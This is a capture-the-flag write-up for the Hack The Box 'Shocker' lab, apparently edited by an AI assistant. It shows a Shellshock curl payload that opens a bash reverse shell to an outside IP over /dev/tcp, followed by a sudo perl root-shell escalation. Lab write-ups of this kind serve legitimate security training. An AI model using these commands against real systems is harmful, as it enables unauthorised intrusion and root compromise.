 # [Shocker]: HTB Lab Write-Up
- [Introduction](#introduction)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Privilege Escalation](#privilege-escalation)
- [Conclusion](#conclusion)

## Introduction
Shocker - Difficulty: Easy  
- **Description:** A Linux machine that exploits a vulnerable CGI script to gain initial access and escalates privileges using improper sudo configurations.
- **Skills Required:** Web exploitation, Bash command injection, and privilege escalation.

---

## Enumeration
### Nmap Scan
**Command:**  
```bash
nmap -sC -sV 192.168.x.x
```

**Findings:**  
- Port `80` running Apache HTTPD 2.4.18  
- Directory `/cgi-bin/` detected.  

Screenshot:  
![Nmap Scan](screenshots/nmap_scan.png)

---

## Exploitation
### Step 1: Shellshock Exploit on `/cgi-bin/user.sh`
The target is vulnerable to **ShellShock** (CVE-2014-6271). This was exploited by injecting a reverse shell command via an HTTP header:  

**Command:**  
```bash
curl -H 'User-Agent: () { :;}; /bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.6/9090 0>&1"' http://192.168.x.x/cgi-bin/user.sh
```

**Result:**  
A reverse shell as the user `shelly` was obtained.  

Screenshot:  
![Reverse Shell](screenshots/reverse_shell.png)  

---

## Privilege Escalation
### Step 1: Analyze Permissions
**Command:**  
```bash
sudo -l
```

**Result:**  
User `shelly` has sudo permissions to run `/usr/bin/perl` as root without a password:  
```plaintext
User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

### Step 2: Exploit `/usr/bin/perl` to Gain Root
Using the provided sudo permissions, root access was achieved by spawning a bash shell through Perl:  

**Command:**  
```bash
sudo /usr/bin/perl -e 'exec "/bin/bash";'
```

**Result:**  
A root shell was obtained.  

Screenshot:  
![Root Access](screenshots/root_access.png)

### Step 3: Capture the Root Flag
Navigate to `/root` and display the `root.txt` file:  
```bash
cat /root/root.txt
```

---

## Conclusion
- **Key Lessons Learned:**
  1. Always scan for vulnerable services, such as CGI scripts.
  2. The importance of properly managing `sudo` permissions to avoid privilege escalation.
- **Tools Used:** Nmap, curl, netcat.
- **Next Steps:** Mitigation practices include:
  - Updating Bash to fix ShellShock.
  - Minimizing sudo permissions granted to regular users.
```

---

### **Key Fixes and Updates:**
1. **Corrected Privilege Escalation Details:** 
   - Removed reference to "SUID Binary," which was not relevant to this lab.
   - Clearly explained the usage of `sudo` and `/usr/bin/perl` for escalation.
2. **Better Screenshot Descriptions:** Included placeholder descriptions for expected screenshots.
3. **Simplified Steps for Clarity:** Consolidated details under clear headings.

Let me know if you'd like help automating or formatting this on GitHub!
